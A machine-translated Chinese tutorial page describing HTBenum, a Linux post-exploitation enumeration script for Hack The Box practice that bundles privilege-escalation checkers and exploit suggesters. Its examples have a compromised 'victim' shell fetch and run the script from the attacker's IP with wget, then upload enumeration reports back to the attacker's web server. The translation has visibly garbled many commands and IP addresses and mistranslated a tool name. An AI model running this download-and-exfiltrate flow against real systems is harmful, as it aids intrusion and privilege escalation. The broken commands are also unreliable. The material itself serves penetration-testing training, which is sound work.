

# HTBenum:一个用于黑掉机器的 Linux 枚举脚本

> 原文：<https://kalilinuxtutorials.com/htbenum/>

**HTBenum** 是一个用于黑掉机器的 Linux 枚举脚本。该脚本设计用于在 Linux 主机上无法访问互联网，并且希望运行枚举和漏洞利用建议脚本(如 Hack The Box)的情况。

当我在 Linux 机器上有了一个初步的立足点时，我发现自己也在运行一组类似的脚本，这个脚本有助于自动化下载每个枚举脚本的最新版本、使它可执行、运行它，以及将输出发送到一个文件供以后查看的过程。它还有一个内置的 web 服务器来托管工具并将报告上传回主机。

**特性**

*   5 种不同的枚举脚本，包括:
    *   [linux 智能枚举](https://github.com/diego-treitos/linux-smart-enumeration/)
    *   [LinEnum](https://github.com/rebootuser/LinEnum/)
    *   [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    *   上浮
    *   [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
*   2 种不同的漏洞利用建议工具，包括:
    *   [Linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    *   [LES: Linux 权限提升审计工具](https://github.com/mzet-/linux-exploit-suggester)
*   内置网络服务器，用于托管工具和上传完成的报告
*   自动工具下载和更新功能
*   自定义目录选项，用于当您知道自己有权访问特定目录时(默认为/tmp)
*   交互式菜单让您选择是只运行枚举，只运行 expoit 建议，还是两者都运行
*   检查 Python 2 和 3，并让您知道在 Python 缺失的情况下将跳过哪些脚本

**用途**

**。/htbenum.sh [-u] -i IP -p 端口[-o 目录] [-w] [-r]**

**示例:**
主机:root@kali:~/htbenum#。/htbenum.sh -u
主机:root@kali:~/htbenum#。/htb enum . sh-I 10 . 10 . 14 . 1-p 80-w
受害机:www-data@victim:/tmp$ wget http://10 . 10 . 14 . 1:80/htb enum . sh
受害机:www-data @ Victim:/tmp $ chmod+x ./htb enum . sh
受害机:www-data @ Victim:/tmp $。/htbenum . sh-I 10 . 10 . 14 . 1-p 80-r

**参数:**
-h-查看帮助和用法。
-I IP–用于上传和下载的监听 web 服务器的 IP 地址。
-p 端口–用于上传和下载的监听 web 服务器的 TCP 端口。
-o 目录——自定义下载和报表创建目录(默认为/tmp)。
-w–启动内置网络服务器下载文件和上传报告。
-u–更新到每个工具的最新版本，覆盖任何现有版本。
-r–将报告上传回主机 web 服务器(必须支持上传请求)。

**也读作-[rich kit:领域丰富工具包](https://github.com/SolomonSklash/htbenum)**

使用这个工具克隆 repo，并在本地机器上运行带有`**update**`参数的脚本。这将从互联网(Github)下载并更新所有需要的脚本，并将它们放在与`**htbenum.sh**`相同的目录中:

**root@kali:~#** git 克隆 https://github.com/SolomonSklash/htbenum
**root @ kali:~ #**CD htbenum
**root @ kali:~**/htbenum #。/htbenum.sh -u

**作者 solomonsklash–solomonsklash @ 0x feed . io**

**【I】更新所有工具…**
2019-11-25 17:54:55 网址:https://raw . githubusercontent . com/Diego-treitos/Linux-smart-enumeration/master/LSE . sh[31859/31859]-【网址

**root @ kali:~/htbenum #**

然后，启动内置 web 服务器来托管工具并接收完成的报告。服务器需要 Python 3。您可以使用自己的 web 服务器来托管工具，但是它需要支持报告上传的 PUT 请求。

**root@kali:~** /htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w

最后，将 htbenum.sh 脚本上传到您的目标机器，使其可执行，并使用您的主机的 IP 和端口运行它，并带有一个可选的目录用于下载文件和编写报告输出。您也可以选择将报告上传回主机。例如:

**www-data @ htb:/tmp $**wget http://10 . 10 . 99 . 100/htbenum . sh-O/tmp/htbenum . sh
www-data @ htb:/tmp $chmod+x ./htbenum . sh
www-data @ htb:/tmp $。/htbenum.sh -i 10.10.14.1 -p 80 -r

每个工具都会将其输出发送到与 htbenum.sh 脚本位于同一目录的报告文件中，或者发送到-d 参数指定的任何目录中。

[**Download**](https://github.com/SolomonSklash/htbenum)